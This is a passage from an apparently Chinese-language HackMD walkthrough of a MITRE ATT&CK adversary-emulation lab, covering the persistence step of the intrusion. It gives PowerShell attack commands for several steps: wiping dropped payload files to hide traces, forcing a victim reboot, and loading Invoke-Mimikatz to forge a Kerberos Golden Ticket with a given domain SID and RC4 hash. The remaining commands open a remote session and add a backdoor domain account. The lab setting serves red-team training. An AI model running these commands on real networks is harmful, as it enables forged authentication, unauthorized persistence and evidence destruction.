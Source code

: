 
![image](https://hackmd.io/_uploads/Bk9C2ZtIC.png)

```powershell=
PS 2> wipe "C:\Windows\System32\m.exe"
PS 2> wipe "C:\Windows\Temp\WindowsParentalControlMigration.tmp"
PS 2> wipe "C:\Windows\Temp\WindowsParentalControlMigration\MITRE-ATTACK-EVALS.HTML"
```

### Step 20 - 利用持久性
初始受害者重新啟動並使用合法用戶登錄，此活動將觸發先前建立的持久性機制，即 Windows 註冊表運行鍵引用的 DLL 有效負載（T1085）的執行和 WMI 事件訂閱（T1084），後者執行新的 PowerShell 暫存器（T1086）。攻擊者使用來自先前漏洞的材料，使用新的訪問權限來生成 Kerberos Golden Ticket（T1097），該材料用於與新受害者建立遠程 PowerShell 會話（T1028）。通過此連接，攻擊者在域內創建一個新帳戶（T1136）。

```powershell=
#使用 restart-computer 命令強制重啟受害者計算機。
PS 2> restart-computer -force

```
![image](https://hackmd.io/_uploads/ByZcJftLA.png)

使用 RDP 登錄受害者系統：

#### 切換到 System 權限的會話中：

```powershell=
#清除 Kerberos 緩存：
PS 3> klist purge
#加載 Mimikatz 模組：
PS 3> loadmoduleforce /home/kali/payloads/day2/Invoke-Mimikatz-Evals.ps1
#生成 Kerberos Golden Ticket：
PS 3> Invoke-Mimikatz-Evals -command ""kerberos::golden /domain:apt.local /sid:S-1-5-21-374680414-1105030488-2607252970 /rc4:5fae7c899798b24d56c697f86e8cc7d6 /user:john /ptt""
#驗證 Kerberos 票據：
PS 3> klist

```
#### 建立遠程 PowerShell 會話並創建新帳戶

```powershell=
#進入目標計算機的 PowerShell 會話：
PS 3> Enter-PSSession PC1
#在遠程計算機上創建新用戶：
PS 3> Invoke-Command -ComputerName PC1 -ScriptBlock {net user /add toby "pamBeesly<3"}
```
